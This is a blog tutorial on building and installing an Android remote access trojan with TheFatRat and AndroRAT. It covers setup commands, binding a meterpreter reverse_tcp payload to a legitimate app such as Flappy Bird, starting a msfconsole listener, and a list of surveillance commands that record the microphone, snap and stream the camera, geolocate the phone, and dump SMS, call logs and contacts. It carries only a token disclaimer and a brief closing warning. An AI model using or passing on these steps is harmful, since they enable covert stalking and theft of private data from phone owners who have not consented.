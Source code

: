 ```yaml
---
title: Trying out an android Remote Access Trojan (RAT)
author: hugo
date: 2023-04-05 09:11:00 +0200
categories: [Tutorial, security]
tags: [hacking, android]
render_with_liquid: false
---
```



> This tutorial will guide you through the process of infecting Android phones with a trojan. The author gives this example for educational purposes and does not incentivise you to apply these techniques without prior consent
{: .prompt-info }

## The art of deception

_The best defense is a good offense_. Once you're able to write this up and distribute it yourself you'll get a good grasp of how this attack works and what to look out for to stay protected on the internet. Let's define what a trojan is and what we intend to do here today.

<em>In computing, a Trojan horse is any malware that misleads users of its true intent by disguising itself as a real program. The term is derived from the ancient Greek story of the deceptive Trojan Horse that led to the fall of the city of Troy.</em> [`Wikipedia`](https://en.wikipedia.org/wiki/Trojan_horse_(computing)).

To perform this attack you:

1. do not need to "root" your device. You should be able to connect your phone via USB or wifi and drag and drop the executable onto the phone without prior phone configuration.
2. will need to have physical access (pin number) to the phone you're targeting because Android is able to identify it as a trojan and tries to prevent you from installing it.

## Inception

I got inspired to write this blog post after watching a disturbing movie on netflix. "Unlocked" is the story of a korean psychopath who installs malware on a girl's lost cell phone and uses it to track her every move. The movie and the plot were not great but this idea stuck with me. It can't be that easy to install a tracker on a phone? right?

It took me a while to understand what tools and software exist out there. My mind naturally gravitated to the Google store first. I figured that the easiest and frictionless solution you could ever wish for would be on the App store. After some digging I finally discovered Airdroid which provides a lot of those malware features like GPS tracking and screen monitoring. The only two problems I had with it is that it's not a stealth solution, the app notifies the user that it's running on the background, and your data is sent to god knows who's server out there on the internet. I set it upon myself to find "better". A couple of weeks later I came to the realization that all of my deep web searches were in vain and got burnt out from clicking through all the online scams down there. The few forums I actually found looked like they came out from the 1990's which gave me nostalgia and some happy memories of what the early web looked like but ultimately it did not provide any answers.

After a couple of days I finally found the right keyword to search on google and came accross 10 potential candidates for this blog post. My mind finally settled on one called "TheFatRat" and "AndroRat".

## Strategy

Let's review what we are about to do. The plan is to test this malware locally on a virtual android environment and make sure that our server can successfully command and control the android phone. Once that's validated we can increase the complexity by deploying it onto a an actual phone on our local area network. I was planning on showcasing at least four open source projects but ended up only reviewing two of them. The [L3MON](https://github.com/D3VL/L3MON) project vanished from github unfortunately and the [xhunter](https://github.com/anirudhmalik/xhunter) project did not work despite using the release and making sure to use the right Android OS version. It's been quite hard to find anything that (kind of) works so I'm happy to have at least found one open source project that actually applied the malware.

## Configuring and installing

We will be trying out two RATs today: [TheFatRat](https://github.com/screetsec/TheFatRat) and [AndroRAT](https://github.com/karma9874/AndroRAT). Both of which have their pros and cons. 

Starting in second place we have AndroRAT. The advantage of using this RAT is the fact that the author deployed the actual Java code so you're able to modify and understand how it does it's magic. I deployed AndroRAT on one AVD and two actual phones (OS 13 and 6.0.1) and they were all extremely unstable. The RAT successfully spawned a reverse shell on my computer but it would randomly break and I would have to repeat the installation cycle all over again every time. If it wasn't for the transparency I don't think I would have bothered mentioning this program in the first place but I can see potential in it. 

Our clear winner here today is TheFatRat who's functionalities are far and wide. This small executable claims it can take on Windows, Mac, Linux computers as well as android phones. I have yet to fully test and assess these claims but so far I have been blown away by the ease of use and the sheer amount of features this thing has. With our previous RAT we had to install and run a shaddy looking app which does not seem like a credible attack strategy. TheFatRat on the other hand allows us to attach the trojan onto a legitimate app which is how I assume most malware is distributed nowadays. TheFatRat has however a glaring problem which is that it's closed source. The program works thanks to a couple of bash scripts and pre-compiled (c++ code?) but you won't get to see a single line of actual source code which is disappointing to say the least.

Enough talk let's configure and install this software to see what it can do.

```console
    [waz@localhost]# git clone git@github.com:screetsec/TheFatRat.git
    [waz@localhost]# cd TheFatRat
    [waz@localhost]# chmod +x setup.sh && ./setup.sh
```
If the setup fails try running it again, it solved the issue for me as some libraries conflicted with existing ones I had previously installed.

Once the setup is complete you now see a program called _fatrat_ at the root of the project. Run it and it will start the following command line prompt

![FatRat welcome screen](/assets/img/posts/2023-04-05_11-31.png){: width="100%"}

The purpose of this tutorial today is to run an Android trojan so let's choose option number 5. You will then be asked to choose the host ip address, the host's port and the app you want to attach the payload to. I've choosen Flappy bird which I downloaded from APK mirror. The host ip is the IP address of the server that should communicate back with the infected target. Don't forget to allow the servers to communicate on the port you choose to run in your firewall.

![FatRat host configuration](/assets/img/posts/2023-04-05_11-38.jpg){: width="100%"}

Later in the process choose the option 3 "android/meterpreter/reverse_tcp" and then option 3 "Use MsfVenom"

Once configured make sure to add a listener and give it a name, I gave it the name `myratconfig.rc`. This will list out the configuration which will now be used to run our local server. This next command will start listening for incoming HTTP requests 

```console
    [waz@localhost]# msfconsole
```

Now copy paste the contents of `myratconfig.rc` in the console to start listening for incoming requests. The next step is to send the trojan and install it on a device. You can start a local android instance with the following command `./emulator -avd Pixel_API_33` or connect your phone to your computer via USB. Once installed it's you'll have a number of interesting commands at your disposal. You'll notice that the phone does not even need to have the infected app in the background in order to work

Here are the commands I found most interesting:

```console
# record the next 20 seconds activity from the microphone
record_mic -d 20
# send text messages 
send_sms -d +351961234567 -t "GREETINGS SWEETHEART."  
# list available cameras
webcam_list 
# take a picture from the camera s phone
webcam_snap 2
# start streaming the back camera
webcam_stream 
# locate the phone by returning the exact longitude/latitude position
wlan_geolocate -a REPLACE_WITH_YOUR_GOOGLE_API_KEY
# take a screenshot 
screenshot
# copy all of the call logs on the phone
dump_calllog
# copy all of the sms conversations on the phone
dump_sms
# copy all of the contacts on the phone
dump_contacts
```
## Video

I like to add a small clip to showcase what was said so far. Enjoy !

<div style="padding-top: 5px; padding-bottom: 5px; position:relative; display:block; width: 100%; min-height:400px">

<iframe width="100%" height="400px" src="https://youtube.craftstudios.shop/uploads/netgear/Videos/chirpy/2023-04-05%2022-31-03.mp4" title="YouTube video player" frameborder="0" allow="accelerometer; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen sandbox></iframe>

</div>

## Conclusion

I started this pen-tester/security journey recently and it feels like oppening a pandora's box. The modern hacker has so many tools available at his disposal and the scary part is that I needed absolutely no programming knowledge to pull this off. A bit of curiosity sprinkled with some persistence here and there did the trick. If this blog post could convey one idea it is this: be extremely careful with the apps you install even when they come from the app store. 

Thank you for reading 

